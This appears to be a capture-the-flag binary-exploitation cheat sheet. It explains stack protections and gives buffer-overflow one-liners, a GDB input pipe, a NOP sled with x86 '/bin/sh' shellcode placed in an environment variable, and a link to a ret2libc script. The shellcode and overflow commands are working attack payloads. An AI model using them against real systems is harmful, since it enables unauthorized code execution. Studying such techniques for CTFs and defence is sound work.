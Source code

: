 > No RELRO: Possible to overwrite global variable

> No canary: Possible to smash the stack

> NX disabled: Possible to write and execute from the stack

> No PIE: Virtual address it should use and keeps its memory layout quite static

> File descriptor: input - 0, output - 1, error - 2

## Quick scripts

- `Find offset (64 bit)`

  - [pwntools-code]()

## GDB

- `Pipe python output`

  - `r < <(python -c "print '\x41' * 500")`

## Buffer overflow

- `bof guessing offset`

  - `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
  - `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`

- `Jump to env`

  - ```sh
    export WIN=$(python -c "'\x90' * 100 + '\x31\xc0\x99\xb0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80'")
    ```
  - ```c
    #include <stdio.h>
    #include <stdlib.h>
    int main(int argc, char *argv[]) {
      char *nix = getenv("WIN");
      printf("%p\n", nix);

      return 0;
    }
    ```

## Return 2 libc

- `ret2libc`

  - [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)
